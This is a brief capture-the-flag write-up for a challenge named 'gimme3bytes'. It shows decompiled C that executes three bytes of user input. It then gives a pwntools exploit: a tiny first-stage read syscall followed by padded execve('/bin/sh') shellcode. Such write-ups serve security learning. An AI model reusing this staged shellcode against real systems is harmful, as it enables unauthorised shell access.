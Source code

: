 # gimme3bytes
In this challenge the main do a read with only 3 bytes:
```c
undefined8 main(void)

{
  code *shellcode;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);

  shellcode = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,shellcode,3);
  (*shellcode)();
  return 0;
}
```
But in GDB we can notice that just doing a "pop rdx" as first stage this will create the right envirorment for doing a read, so reading the shellcode for spawning a shell:
```python
input("stage_1")
asm_code="""
pop rdx
syscall
"""
shellcode=asm(asm_code)
r.send(shellcode)
input("stage_2")
asm_code= """
mov rdi, rsi
add rdi, 25
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
"""
shellcode = asm(asm_code)
stri=b"/bin/sh\00"
payload=b"aaa"+shellcode+b"/bin/sh\00"
r.send(payload)
```
notice that we have to put some padding before sending the stage 2 because we have to put our shellcode just after the stage 1 in order to be executed.
